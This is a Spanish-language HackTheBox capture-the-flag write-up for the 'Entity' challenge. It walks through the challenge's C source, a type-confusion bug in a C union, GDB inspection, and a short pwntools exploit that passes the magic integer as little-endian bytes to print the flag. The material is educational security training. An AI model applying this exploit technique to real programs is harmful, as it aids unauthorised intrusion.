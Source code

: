 ```yaml
---
layout: default
title: Entity
parent: HackTheBox
grand_parent: Writeups
---
```


# Entity
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---
Tenemos un binario donde explotaremos la vulnerabilidad Type Confusion para utilizar incorrectamente un valor de un tipo como si fuera otro tipo.
{:.lead}

## Analisis

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
### Main

```c
int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    bzero(&DataStore, sizeof(DataStore));
    printf("\nSomething strange is coming out of the TV..\n");
    while (1) {
        menu_t result = menu();
        switch (result.act) {
        case STORE_SET:
            set_field(result.field);
            break;
        case STORE_GET:
            get_field(result.field);
            break;
        case FLAG:
            get_flag();
            break;
        }
    }

}
```
En el main, tenemos un ```switch case``` con 3 opciones, donde dependiendo de lo que este en la funcion ```menu```, es lo que va a hacer

### Menu

```c
menu_t menu() {
    menu_t res = { 0 };
    char buf[32] = { 0 };
    printf("\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    buf[strcspn(buf, "\n")] = 0;
    switch (buf[0]) {
    case 'T':
        res.act = STORE_SET;
        break;
    case 'R':
        res.act = STORE_GET;
        break;
    case 'C':
        res.act = FLAG;
        return res;
    default:
        puts("\nWhat's this nonsense?!");
        exit(-1);
    }
```

Nos damos cuenta que en la opcion ```C``` corresponde al ```case FLAG``` de la funcion main:

```c
case FLAG:
    get_flag();
    break;
```
Donde se manda a llamar a la funcion ```get_flag()```:

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```
Donde para mostrar la flag, tenemos que hacer que ```DataStore.integer``` sea igual a ```13371337```, sin embargo, hay una funcion que nos lo impide:

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```
Donde esta validando si ```DataStore.integer``` es igual a ```13371337``` que imoprima en pantalla el mensaje ```puts("\nWhat's this nonsense?!");``` y sale del programa

### Codigo vulnerable

Cada vez que se esta usando ```DataStore.integer``` se hace referencia a esta estructura:

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

En C, la estructura ```union``` puede almacenar varios tipos de datos en la misma direccion de memoria. Por ejemplo, en este caso, ```integer``` es una variable que ocupa 8 bytes en la memoria, la cual almacena un valor entero de 64 bits, y ```string``` es otra variable la cual es una arreglo de caracteres que igual ocupa 8 bytes en la memoria (cada letra es un byte), y nosotros podemos acceder a esas variables a travez de ```DataStorage``` dependiendo de como queremos interpretar los datos dentro de ```union```, y ```union``` se encargara de ponerlas en la misma direccion de memoria, idependientemente del tipo de dato.

Y de toda esta explicacion viene la vulnerabilidad ```Type confusion``` o confusion de tipos, en la cual basicamente es un tipo de vulnerabilidad que ocurre cuando un programa utiliza incorrectamente un valor de un tipo como si fuera otro tipo. Y para este ejercicio podemos utilizar incorrectamente del valor de la variable ```string``` como si fuera el de la variable ```integer```

**Problema**

Al intentar pasarle el numero ```13371337``` como string, indicandole la opcion ```S``` como lo indica el ```case S```:

```c
case 'S':
    res.field = STRING;
    break;
```

El programa no muestra la flag:

![](/assets/img/HTB-entity/tc1.png)

Y es por esta comprobacion:

```c
case STRING:
    memcpy(DataStore.string, buf, sizeof(DataStore.string));
    break;

```
Sin embargo se supone que esta todo "bien", asi que para ver que se esta comparando realmente en ```DataStore.integer == 13371337```

### Analisis con GDB

En un gdb metere un breakpoint en la intruccion donde se realiza la comparacion:

```
0x0000000000001412 <+11>:	cmp    rax,0xcc07c9
```

Primero que nada, lo que esta haciendo ```cmp    rax,0xcc07c9``` es comparar ```DataStorage``` que se guarda en ```rax```, con ```0xcc07c9``` que es el numero ```13371337```. Cuando ejecute el programa yo le indique que se guardara como string.

Al ver el valor de ```rax```:

![](/assets/img/HTB-entity/tc2.png)

Nos podemos dar cuenta que lo que se guarda en ```DataStorage``` es un decimal: ```0x3733333137333331```, entonces para explotar esta confusion de tipos, podemos mandarle el numero 13371337 como string de bytes en little endian, por que ya no se estaria comprobando en la funcion ```set_field```, osea asi:

```
b'\xc9\x07\xcc\x00\x00\x00\x00\x00'
```

## Exploit

Y con todo lo anterior, el exploit queda asi:

```python
from pwn import *

p = process("./entity")

p.sendline("T")
p.sendline("S")
p.sendline(p64(13371337))
p.sendline("C")
p.interactive()
```

Y ya tenemos la flag:

![](/assets/img/HTB-entity/tc3.png)

Eso ha sido todo, gracias por leer ❤
